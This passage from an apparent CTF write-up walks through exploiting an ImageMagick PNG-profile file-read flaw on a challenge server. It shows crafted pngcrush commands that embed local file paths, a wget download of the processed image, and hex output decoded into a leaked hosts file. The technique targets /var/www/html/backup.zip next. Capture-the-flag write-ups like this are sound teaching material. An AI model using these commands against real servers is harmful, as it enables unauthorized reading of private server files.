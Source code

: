 Once the file is ready we can upload it on the web application, and download the file resized by the server :

```bash
wget http://node2.challenges.ctf20k.root-me.org:25533/uploads/pngout-resized.png
```

We can confirm that the image has been modified by looking at the checksum or by looking at the size of the image that has changed :

![changes](/images/changes.png)

We can parse the PNG with `identify` to discover the content of the file in hex :


```bash
identify -verbose pngout-resized.png

...

3132372e302e302e31096c6f63616c686f73740a3a3a31096c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666530303a3a096970362d6c6f63616c6e65740a666630303a3a096970362d6d636173747072656669780a666630323a3a31096970362d616c6c6e6f6465730a666630323a3a32096970362d616c6c726f75746572730a31302e302e302e31380934353039346436346437343936666134336465356530333638366236623463360a
```

The file has been read and can now be decoded:

```bash
echo -n 3132372e302e302e31096c6f63616c686f73740a3a3a31096c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666530303a3a096970362d6c6f63616c6e65740a666630303a3a096970362d6d636173747072656669780a666630323a3a31096970362d616c6c6e6f6465730a666630323a3a32096970362d616c6c726f75746572730a31302e302e302e31380934353039346436346437343936666134336465356530333638366236623463360a | xxd -r -p
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::  ip6-localnet
ff00::  ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.0.0.18       45094d64d7496fa43de5e03686b6b4c6
``` 

At this point, we could try to read /flag.txt, but the file doesn't exist. Now we remember that a ZIP archive was present but inaccessible. However, we can retrieve it with file read primitive.

Repeat the previous operation:

```bash
pngcrush -text a "profile" "/var/www/html/backup.zip" sample.png
```

